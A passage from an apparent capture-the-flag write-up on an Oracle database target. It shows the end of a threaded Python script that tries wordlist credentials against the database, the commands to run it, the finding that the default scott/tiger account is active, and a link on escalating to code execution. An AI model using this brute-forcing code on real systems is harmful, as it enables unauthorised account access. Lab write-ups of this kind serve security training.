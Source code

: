 ```python
      print(f'[???] Oracle-Error-Code: {error.code}')
      print(f'[???] Oracle-Error-Message: {error.message}')
    
if __name__ == '__main__':
  creds = []
  with open(WORDLIST, 'r') as f:
    creds.extend(f.readlines())
  random.shuffle(creds)
  print(f'[*] loaded {len(creds)} credentials ...')
  threads = multiprocessing.dummy.Pool(multiprocessing.cpu_count() * 4) 
  threads.map(thread, creds)
  threads.join()
```

Run this script as follows (saved as `oracle.py`):

```bash
python3 -m pip install cx_Oracle --upgrade
python3 oracle.py
```

Running this script verifies (much more quickly than the other scripts/tools...) that `scott/tiger` is the only default account _active_ on the target:

![oracle4](./silo/oracle4.png)

With this account access, there are a few ways to go about getting code execution:

- https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener/oracle-rce-and-more
